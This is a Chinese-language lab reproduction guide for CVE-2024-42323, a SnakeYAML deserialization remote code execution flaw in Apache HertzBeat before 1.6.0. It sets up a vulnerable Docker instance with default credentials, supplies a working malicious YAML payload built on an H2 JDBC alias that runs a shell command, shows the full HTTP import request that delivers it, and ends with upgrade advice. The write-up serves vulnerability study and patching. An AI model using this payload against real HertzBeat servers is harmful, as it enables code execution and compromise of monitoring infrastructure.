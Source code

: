 # Apache HertzBeat SnakeYaml 反序列化远程代码执行漏洞 CVE-2024-42323

## 漏洞描述

Apache HertzBeat 是一款开源的实时监控告警工具，支持对操作系统、中间件、数据库等多种对象进行监控，并提供 Web 界面进行管理。

在 1.6.0 版本之前，HertzBeat 使用了存在安全漏洞的 SnakeYAML 库来解析 YAML 文件。当已认证用户通过 `/api/monitors/import` 或 `/api/alert/defines/import` 接口导入新的监控类型时，可以提供特制的 YAML 内容触发不受信任数据的反序列化，最终可能导致在目标系统上执行远程代码。

参考链接：

- https://forum.butian.net/article/612
- https://lists.apache.org/thread/dwpwm572sbwon1mknlwhkpbom2y7skbx

## 漏洞影响

```
Apache HertzBeat < 1.6.0
```

## 环境搭建

Vulhub 执行如下命令启动存在漏洞的 HertzBeat 1.4.4 服务器：

```
docker compose up -d
```

服务启动后，访问 `http://your-ip:1157/dashboard` 进入 HertzBeat 控制面板。默认登录凭据为：

- 用户名：`admin`
- 密码：`hertzbeat`

![](images/Apache%20HertzBeat%20SnakeYaml%20反序列化远程代码执行漏洞%20CVE-2024-42323/image-20250311090855824.png)

## 漏洞复现

首先，准备一个恶意 YAML 文件，文件名必须以 `.yaml` 结尾，内容如下：

```yaml
!!org.h2.jdbc.JdbcConnection [ "jdbc:h2:mem:test;MODE=MSSQLServer;INIT=drop alias if exists exec\\;CREATE ALIAS EXEC AS $$void exec() throws java.io.IOException { Runtime.getRuntime().exec(\"touch /tmp/awesome_poc\")\\; }$$\\;CALL EXEC ()\\;", [], "a", "b", false ]
```

然后登录 HertzBeat 后台，导航到任意监控页面并找到导入按钮，在这里将上面的恶意 YAML 文件导入：

![](images/Apache%20HertzBeat%20SnakeYaml%20反序列化远程代码执行漏洞%20CVE-2024-42323/image-20250311090950864.png)

HertzBeat 对 YAML 文件进行反序列化时，触发远程代码执行：

```
POST /api/monitors/import HTTP/1.1
Host: your-ip:1157
Accept-Encoding: gzip, deflate
Accept-Language: en-US
Origin: http://your-ip:1157
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.6788.76 Safari/537.36
Accept: application/json, text/plain, */*
Referer: http://your-ip:1157/monitors
sec-ch-ua-platform: "Windows"
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvl3ne8kWpIEZzrNr
Authorization: Bearer eyJhbGciOiJIUzUxMiIsInppcCI6IkRFRiJ9.eJw1jMsKwjAQRf9l1h0wj8akvyIuMs4I8dFKJhVB_HdT0OU593LecGkFJjjFwMLkMPlzQp8dY2S3QwqUKFg23hIMoCv1c-Z7mTsV1U66VplFFdtylRlV6lPqtuYGk9l7E8bReTuAvB5_EdMm6nKTXjj8gsfPF5W5Kao.lj6IwR1vmaTc2T0t2VJlwOCTMJeu4tlOejqygKjtlHV-vj2Ew2Cw5ljUv-9pGxDB_yKnfrKp89i4QhYoQAs8vA
Content-Length: 456

------WebKitFormBoundaryvl3ne8kWpIEZzrNr
Content-Disposition: form-data; name="file"; filename="test.yaml"
Content-Type: application/x-yaml

!!org.h2.jdbc.JdbcConnection [ "jdbc:h2:mem:test;MODE=MSSQLServer;INIT=drop alias if exists exec\\;CREATE ALIAS EXEC AS $$void exec() throws java.io.IOException { Runtime.getRuntime().exec(\"touch /tmp/awesome_poc\")\\; }$$\\;CALL EXEC ()\\;", [], "a", "b", false ]

------WebKitFormBoundaryvl3ne8kWpIEZzrNr--
```

![](images/Apache%20HertzBeat%20SnakeYaml%20反序列化远程代码执行漏洞%20CVE-2024-42323/image-20250311091514662.png)

命令成功执行：

![](images/Apache%20HertzBeat%20SnakeYaml%20反序列化远程代码执行漏洞%20CVE-2024-42323/image-20250311091629839.png)

## 漏洞修复

目前官方已有可更新版本，建议受影响用户升级至最新版本 Apache Hertbeat >= 1.6.0。官方下载地址： https://hertzbeat.apache.org/zh-cn/docs/download/
